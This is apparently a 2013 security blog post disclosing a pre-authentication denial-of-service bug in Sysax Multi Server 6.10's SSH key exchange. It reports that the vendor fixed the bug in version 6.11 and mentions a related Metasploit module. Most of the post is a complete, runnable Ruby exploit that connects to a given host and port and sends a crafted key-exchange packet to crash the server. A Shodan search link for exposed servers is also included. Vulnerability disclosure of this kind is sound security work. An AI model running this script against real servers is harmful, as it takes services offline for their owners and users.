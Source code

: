 ```yaml
---
layout: post
title: "Sysax Multi Server 6.10 SSH DoS"
date: "2013-04-08T08:27:00-04:00"
comments: true
categories:
 - ssh
 - DoS
 - windows
 - sysax
 - exploit
 - metasploit
---
```


I was recently fuzzing a bunch of SSH servers, hoping to find some remote code execution in a non-mainstream server. I ended up finding no code execution in the several that I tried, but I did find one pre-auth denial of service in Syax Multi Server 6.10.

<!-- more -->

## Try this at home!

The vulnerable version can be downloaded [here](https://www.dropbox.com/s/d6js8u6i4eioa1j/sysaxserv_setup_6.10.msi) for anyone that would like to duplicate the DoS conditions.

## Understanding the Key Exchange

I found that during the key exchange, where the SSH client and SSH server negotiate which ciphers to use, if you messed up just a single specific byte, the server would crash. I started reading through the [RFC](https://tools.ietf.org/html/rfc4253#section-7.1) for SSH keyexchange, and found the key exchange to be mostly ASCII.

{% img /images/sysax_ssh_hex.png %}


I started playing with the byte that caused the crash, and it seemed that it was some sort of control character, or separator. I'm still unsure. However, changing it would cause a crash every time.

{% img /images/sysax_ssh_hex2.png %}

I wasn't able to figure out any way to get remote code execution, although someone smarter than me, may be able to do it. For now, I'll settle with a DoS exploit.

## The exploit

```
#!/usr/bin/env ruby
# Sysax Multi Server 6.10 SSH DoS
# Matt "hostess" Andreko < mandreko [at] accuvant.com >
# http://www.mattandreko.com/2013/04/sysax-multi-server-610-ssh-dos.html

require 'socket'

unless ARGV.length == 2
  puts "Usage: ruby #{$0} [host] [port]\n"
  exit
end

packet = [0x00, 0x00, 0x03, 0x14, 0x08, 0x14, 0xff, 0x9f,
  0xde, 0x5d, 0x5f, 0xb3, 0x07, 0x8f, 0x49, 0xa7,
  0x79, 0x6a, 0x03, 0x3d, 0xaf, 0x55, 0x00, 0x00,
  0x00, 0x7e, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x2d, 0x65,
  0x78, 0x63, 0x68, 0x61, 0x6e, 0x67, 0x65, 0x2d,
  0x73, 0x68, 0x61, 0x32, 0x35, 0x36, 0x2c, 0x64,
  0x69, 0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65,
  0x6c, 0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72,
  0x6f, 0x75, 0x70, 0x2d, 0x65, 0x78, 0x63, 0x68,
  0x61, 0x6e, 0x67, 0x65, 0x2d, 0x73, 0x68, 0x61,
  0x31, 0x2c, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x31, 0x34,
  0x2d, 0x73, 0x68, 0x61, 0x31, 0x2c, 0x64, 0x69,
  0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65, 0x6c,
  0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72, 0x6f,
  0x75, 0x70, 0x31, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x00, 0x00, 0x00, 0x0f, 0x73, 0x73, 0x68, 0x2d,
  0x72, 0x73, 0x61, 0x2c, 0x73, 0x73, 0x68, 0x2d,
  0x64, 0x73, 0x73, 0x00, 0x00, 0x00, 0x9d, 0x61,
  0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63, 0x62,
  0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77, 0x66,
  0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63, 0x66,
  0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c, 0x61,
  0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32, 0x35,
  0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f, 0x75,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39, 0x32,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65, 0x73,
  0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65, 0x6c,
  0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79, 0x73,
  0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69, 0x75,
  0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73, 0x31,
  0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c, 0x61,
  0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63, 0x74,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35, 0x36,
  0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00, 0x9d,
  0x61, 0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77,
  0x66, 0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63,
  0x66, 0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c,
  0x61, 0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32,
  0x35, 0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f,
  0x75, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39,
  0x32, 0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65,
  0x73, 0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65,
  0x6c, 0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79,
  0x73, 0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69,
  0x75, 0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73,
  0x31, 0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c,
  0x61, 0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63,
  0x74, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35,
  0x36, 0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00,
  0x69, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64,
  0x35, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2c, 0x75, 0x6d, 0x61, 0x63,
  0x2d, 0x36, 0x34, 0x40, 0x6f, 0x70, 0x65, 0x6e,
  0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c,
  0x68, 0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70,
  0x65, 0x6d, 0x64, 0x31, 0x36, 0x30, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70, 0x65,
  0x6d, 0x64, 0x31, 0x36, 0x30, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2d, 0x39, 0x36, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2d,
  0x39, 0x36, 0x00, 0x00, 0x00, 0x69, 0x68, 0x6d,
  0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2c, 0x75, 0x6d, 0x61, 0x63, 0x2d, 0x36, 0x34,
  0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68,
  0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68, 0x6d, 0x61,
  0x63, 0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64,
  0x31, 0x36, 0x30, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64, 0x31,
  0x36, 0x30, 0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73,
  0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2d, 0x39, 0x36, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x6d, 0x64, 0x35, 0x2d, 0x39, 0x36, 0x00,
  #3rd byte in this next line causes crash
  0x00, 0x00, 0x28, 0x7a, 0x6c, 0x69, 0x62, 0x40,
  0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e,
  0x63, 0x6f, 0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62,
  0x2c, 0x6e, 0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00,
  0x1a, 0x7a, 0x6c, 0x69, 0x62, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62, 0x2c, 0x6e,
  0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00].pack("C*")

host = ARGV[0]
port = ARGV[1]

sock = TCPSocket.open(host, port)

banner = sock.gets()
puts banner

sock.puts("SSH-2.0-OpenSSH_5.1p1 Debian-5ubuntu1\r\n")
sock.puts(packet)
resp = sock.gets()

sock.close()
```

## Remediation

I contacted the developers of Sysax Multi Server on March 18 2013 and April 6 2013. They were able to release a new version (6.11) which is no longer vulnerable to this bug. If you're running Sysax Multi Server with SSH (off by default, but plenty of users on [ShodanHQ](http://www.shodanhq.com/search?q=sysax+port%3A22)), I would highly recommend updating to 6.11, available [here](http://www.sysax.com/download.htm#sysaxserv).

## Update:

It looks like the Metasploit module I wrote for this has been merged! You can view it [here](https://github.com/rapid7/metasploit-framework/blob/225342ce8f34b1af49e498c0cc6fa92c127187e8/modules/auxiliary/dos/windows/ssh/sysax_sshd_kexchange.rb)
